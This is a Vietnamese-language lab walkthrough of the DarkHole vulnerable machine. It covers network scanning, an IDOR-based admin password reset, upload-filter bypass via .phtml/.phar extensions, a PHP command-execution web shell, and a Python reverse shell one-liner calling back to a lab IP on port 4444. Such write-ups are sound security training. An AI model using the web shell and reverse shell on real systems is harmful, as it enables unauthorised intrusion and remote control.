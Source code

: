## Step 1
Dùng netdiscover để quét ip của máy victim ->192.168.77.251

![image](https://user-images.githubusercontent.com/97771705/224999146-d497a7b0-aa8c-44f6-afe7-c85b530bd6be.png)

Dùng nmap để quét các port tồn tại

![image](https://user-images.githubusercontent.com/97771705/224999373-f0a6423c-cfef-4f3c-8a66-f9a8722a765d.png)

Truy cập vào web darkhole

![image](https://user-images.githubusercontent.com/97771705/224999560-99cd293f-10cf-49ee-843a-a0a54dacaf31.png)

Sử dụng dirsearch, tìm thấy khá nhiều trang thú vị

![image](https://user-images.githubusercontent.com/97771705/225000326-d0af62cb-bf0d-4e34-82d0-019fa00e48e1.png)

Trang config có database.php!! -> truy cập thử nhưng không được :(

![image](https://user-images.githubusercontent.com/97771705/225001082-87b52dc9-9324-49e6-90b7-c5d8c384e3a9.png)

Quay lại trang register và login. Thử IDOR nhưng đã bị chặn

![image](https://user-images.githubusercontent.com/97771705/225001864-2588ea8b-0426-4e95-9922-5c632c07a6cb.png)

![image](https://user-images.githubusercontent.com/97771705/225001912-6d662cb8-a628-4339-beef-5d0f605ec881.png)

Thử change password. Tại burp sửa đổi sang id = 1 vẫn thành công

![image](https://user-images.githubusercontent.com/97771705/225002475-75014042-364e-436e-a72c-282b22621f71.png)

Đoán id=1 chính là admin, đăng nhập thử admin/456 -> vào được trang admin

![image](https://user-images.githubusercontent.com/97771705/225002725-e7d84d51-df93-4dcd-8154-92d8946a66c1.png)

## Step 2
Chức năng upload file chỉ cho phép upload định dạng jpg, png, gif

![image](https://user-images.githubusercontent.com/97771705/225003170-d488cebb-dd45-455f-8528-49504a606f44.png)

Tạo 1 file simple backdoor như sau 
```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Lưu nó lại với tên backdoor.txt

Thử upload file và nhờ burp sửa đuôi sang php4,php5.... -> chỉ có đuôi phtml là có thể thực thi được php 

![image](https://user-images.githubusercontent.com/97771705/225006690-595521b6-c1bd-4982-8377-65e21d6ad5f9.png)

Ngoài ra file .phar cũng xài được :)

![image](https://user-images.githubusercontent.com/97771705/225007577-ea4ea1e5-0806-427f-a501-e3026a6ab651.png)

Bắt đầu reverse shell : Sử dụng payload kiếm được trên https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

> python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.77.128",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

Máy parrot nhập command nc -nlvp 4444, sau đó nhaapm reverse shell trên lên url

![image](https://user-images.githubusercontent.com/97771705/225012793-9b45c432-dc42-4734-a754-8b7606677afd.png)


![image](https://user-images.githubusercontent.com/97771705/225012728-786a9ddf-160b-40e5-b089-e14d2d70cdf4.png)

Kết quả: 

![image](https://user-images.githubusercontent.com/97771705/225013005-e82b7184-424c-4aaa-a84b-02c342d90d31.png)



